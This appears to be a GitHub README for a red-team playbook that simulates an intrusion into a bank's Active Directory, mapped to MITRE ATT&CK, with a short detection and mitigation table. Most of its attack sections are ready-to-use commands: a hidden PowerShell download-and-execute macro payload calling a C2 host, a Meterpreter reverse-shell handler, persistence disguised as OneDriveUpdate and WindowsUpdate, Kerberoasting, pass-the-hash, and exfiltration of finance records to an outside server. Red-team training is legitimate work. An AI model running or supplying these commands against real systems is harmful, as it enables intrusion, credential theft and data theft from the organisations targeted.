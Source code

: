 # Red Team Simulation Playbook — Financial Sector Scenario

![Red Team Simulation](https://img.shields.io/badge/Red%20Team-Simulation-red?style=for-the-badge)
![MITRE ATT&CK](https://img.shields.io/badge/MITRE-ATT%26CK-blue?style=for-the-badge)
![Status](https://img.shields.io/badge/Status-Completed-brightgreen?style=for-the-badge)

---

## Table of Contents
- [ Business Objective](#1-business-objective-simulated-impact)
- [ Initial Access](#2-initial-access--targeted-phishing)
- [ Execution & Persistence](#3-execution--persistence)
- [ Lateral Movement & Collection](#4-lateral-movement--collection)
- [ Exfiltration / Impact](#5-exfiltration--impact)
- [ Detection, Containment & Mitigation](#6-detection-containment--mitigation)
- [ MITRE ATT&CK Mapping](#7-mitre-attck-mapping)
- [ Compensating Controls](#8-compensating-controls)
- [ Conclusion](#9-conclusion)
- [ External References](#10-external-references)
- [ MITRE Attack Chain Diagram](#-mitre-attck-attack-chain-diagram)

---

## 1. Business Objective (Simulated Impact)
- Test resilience against **Active Directory compromise**.  
- Evaluate detection and response capabilities for **ransomware + data exfiltration**.  
- Simulated business impact:
    - Downtime for online banking and payment processing.
    - Data breach involving financial transactions and PII.
    - Regulatory penalties (GLBA, SOX, GDPR) and reputational damage.

---

## Attack Flow (Mermaid Diagram)
```mermaid
flowchart TD
    A[Phishing Email] --> B[PowerShell Payload Execution]
    B --> C[Persistence via Registry / Scheduled Tasks]
    C --> D[Active Directory Enumeration]
    D --> E[Kerberoasting / Lateral Movement]
    E --> F[Credential Dump & NTDS Extraction]
    F --> G[Data Exfiltration]
    G --> H[Impact: Ransomware / Data Leak]
```

---

## 2. Initial Access – **Targeted Phishing**
Vector: spear-phishing email with malicious attachment or fake login page.  
Example commands:
```bash
macro_pack.exe --template=word --payload="powershell -nop -w hidden -c IEX(New-Object Net.WebClient).DownloadString('http://c2/payload.ps1')" --obfuscate

msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_https
set LHOST 10.10.10.5
set LPORT 443
run
```

**MITRE ATT&CK:** T1566.001 (Phishing Attachment), T1059 (PowerShell).

---

## 3. Execution & Persistence
In-memory execution and persistence via registry and scheduled tasks:
```powershell
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v OneDriveUpdate /t REG_SZ /d "powershell.exe -nop -w hidden -c IEX(New-Object Net.WebClient).DownloadString('http://c2/loader.ps1')" /f

schtasks /create /tn "WindowsUpdate" /tr "powershell.exe -nop -w hidden -c IEX(New-Object Net.WebClient).DownloadString('http://c2/update.ps1')" /sc minute /mo 30
```

**MITRE ATT&CK:** T1547.001 (Registry), T1053.005 (Scheduled Task).

---

## 4. Lateral Movement & Collection
Enumeration and exploitation:
```powershell
Get-ADUser -Filter * -Properties ServicePrincipalName | select Name, ServicePrincipalName
net group "Domain Admins" /domain

Invoke-Kerberoast
GetUserSPNs.py finbank.local/user:password -dc-ip 10.10.10.10 -request

crackmapexec smb 10.10.10.10 -u admin -H <NTLMHASH>
rpcclient -U user%pass 10.10.10.10
setuserinfo2 targetuser 23 "NewPassword123!"
```

**MITRE:** T1087.002 (Account Discovery), T1558.003 (Kerberoasting), T1021.001 (SMB).

---

## 5. Exfiltration / Impact
Compress and exfiltrate data:
```powershell
Compress-Archive -Path C:\finance\records\* -DestinationPath C:\Users\Public\report.zip
Invoke-WebRequest -Uri "https://secure-storage.com/upload" -Method POST -InFile "C:\Users\Public\report.zip"
cipher /e C:\finance\records
```

**MITRE:** T1041 (Exfil over C2), T1486 (Data Encrypted for Impact).

---

## 6. Detection, Containment & Mitigation
| Phase            | Detection                                      | Mitigation                                      |
|-----------------|-----------------------------------------------|-----------------------------------------------|
| Initial Access  | EDR alerts, sandbox                           | MFA, disable macros, phishing simulations     |
| Execution       | PowerShell logs (4104), AMSI                 | AppLocker, WDAC                               |
| Lateral Move    | Event IDs 4624, 4768, LDAP anomalies         | ACL hardening, AES-only, query monitoring    |
| Exfiltration    | DLP, proxy analysis                          | TLS inspection, block unknown uploads        |

---

## 7. MITRE ATT&CK Mapping
| Tactic                | Techniques                                      |
|-----------------------|-----------------------------------------------|
| Initial Access        | T1566.001 (Phishing)                         |
| Execution             | T1059 (PowerShell)                           |
| Persistence           | T1547.001 (Registry), T1053.005 (Tasks)      |
| Privilege Escalation  | T1558.003 (Kerberoasting), ACL Abuse         |
| Lateral Movement      | T1021.001 (SMB/WinRM), Pass-the-Hash         |
| Collection            | T1087.002 (AD Enumeration)                   |
| Exfiltration          | T1041 (Exfiltration over C2)                 |
| Impact                | T1486 (Data Encrypted for Impact)            |

---

## 8. Compensating Controls
- Advanced phishing protection (SPF/DKIM/DMARC, sandboxing).
- Active Directory hardening: AES-only, tiered admin model, Protected Users.
- Network segmentation to limit lateral movement; SMB hardening.
- SIEM correlation for MITRE TTPs and honey accounts for detection.

---

## 9. Conclusion
This simulation shows how a targeted attack can **compromise Active Directory, steal sensitive financial data, and disrupt critical operations**.  
**Corporate risks identified:**
- Direct financial loss due to outages and fraud.
- Data breaches impacting compliance (GLBA, SOX) and brand trust.
- Persistent access leading to costly remediation and downtime.

**Key takeaway:** Continuous **offensive security testing combined with real-time detection and response** is essential to reduce exposure.

---

## 10. External References
- [MITRE ATT&CK Framework](https://attack.mitre.org/)
- [Microsoft Securing Active Directory](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/plan/security-best-practices)
- [NIST Cybersecurity Framework](https://www.nist.gov/cyberframework)
- [CIS Critical Security Controls v8](https://www.cisecurity.org/controls/cis-controls-list)
- [OWASP Testing Guide](https://owasp.org/www-project-web-security-testing-guide/)
- [Red Team OPSEC Guide](https://redteam.guide/)
- [SANS Incident Response Resources](https://www.sans.org/incident-response/)

---

##  MITRE ATT&CK Attack Chain Diagram
```mermaid
graph LR
    A[Initial Access] --> B[Execution]
    B --> C[Persistence]
    C --> D[Privilege Escalation]
    D --> E[Lateral Movement]
    E --> F[Collection]
    F --> G[Exfiltration]
    G --> H[Impact]

    A -->|T1566.001| B
    B -->|T1059| C
    C -->|T1547.001 / T1053.005| D
    D -->|T1558.003| E
    E -->|T1021.001| F
    F -->|T1087.002| G
    G -->|T1041| H
    H -->|T1486| H
```
